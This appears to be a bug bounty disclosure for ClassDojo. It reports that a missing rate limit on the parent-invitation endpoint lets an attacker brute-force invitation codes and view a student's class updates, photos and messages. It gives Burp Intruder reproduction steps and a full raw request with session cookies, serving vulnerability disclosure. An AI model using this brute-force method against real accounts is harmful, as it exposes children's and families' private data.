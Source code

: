 # No rate limit + Business Logic Flaw leads to Broken Access Control

## Overview of the Vulnerability
I discovered a bug in the ClassDojo platform that allows attackers to invite themselves into any student's class stories without being invited/authorized to do so. Additionally, the API endpoint that is responsible to accept the parents invitation is lack of rate limit protection which allows attacker to conduct a brute force attack on the parent's invitation code.

## Business Impact
Attackers will be able to see class updates, photos, announcements from the student's class, comments on teacher's posts or messages with the teachers that are responsible for the students without being authorized to do so. This compromises the privacy and security of the students, their family and the teachers.

## Steps to Reproduce
Before you proceed, make sure you have registered for a teacher account, create your own class and add students to the class at https://teach.classdojo.com. Also, make sure you have registered for a parent account at https://home.classdojo.com.

1. Login into your teacher account and navigate to "https://teach.classdojo.com/#/classes/{CLASS_ID}/points?editClass=parents". Replace the CLASS_ID with your CLASS_ID.
2. Invite a parent to the class using the "Invite parents" button and check the parent's email and click on the "Join student's class" link.
3. Log in to the parent's account when prompted and intercept the request using Burp Suite proxy. Click on "Forward" until you see a POST request to https://home.classdojo.com/api/invitation/{PARENT_CODE}.
4. Send the request to Burp Intruder. Set the payload position on the PARENT_CODE. Load the payloads of generated code with 9 characters of random uppercase and numbers. Change the resource pool to only send 1 request every 1 second following your program guidelines.
5. You will see that there is a lack of rate limit that allows you to send hundreds of request and you should see 200 response if the code matches any PARENT_CODE.

*Step 1-3 is only carried out to show how I came across the API endpoint. You can also craft the POST response to the API endpoint using Postman and make sure to replace the cookie with your parent's account cookies. Refer below request:*
```
POST /api/invitation/PN22N5MNQ HTTP/2
Host: home.classdojo.com
Cookie: dojo_log_session_id=9b6331c8-5e04-4153-9065-283a64d982f8; dojo_pubnub_clientId=dojo-107064813; dojo_login.sid=s%3AOQKE1oh8B7G8oSjr83AqqQxbJHR6ULsF.2fUTy5t6A20QISbj6%2BxjheKVX2q9ldIvNOqqiWJJ5S8; dojo_home_login.sid=s:OQKE1oh8B7G8oSjr83AqqQxbJHR6ULsF.2fUTy5t6A20QISbj6+xjheKVX2q9ldIvNOqqiWJJ5S8; dojorrt=1718259838006
Content-Length: 20
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Client-Identifier: Web
X-Client-Version: 202406110412.6018.0-home
X-Sign-Attachment-Urls: true
Sentry-Trace: 66299b90b4f44b08a354a1fcfeae8dfe-9bcb7f3119e50752-0
Baggage: sentry-environment=production,sentry-release=0e430ca5eccbc16b59d392b7a062baec1fc0603f,sentry-public_key=5c51355865402090ed03d41319214223,sentry-trace_id=66299b90b4f44b08a354a1fcfeae8dfe
Content-Length: 20
Origin: https://home.classdojo.com
Dnt: 1
Sec-Gpc: 1
Referer: https://home.classdojo.com/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"state":"accepted"}
```

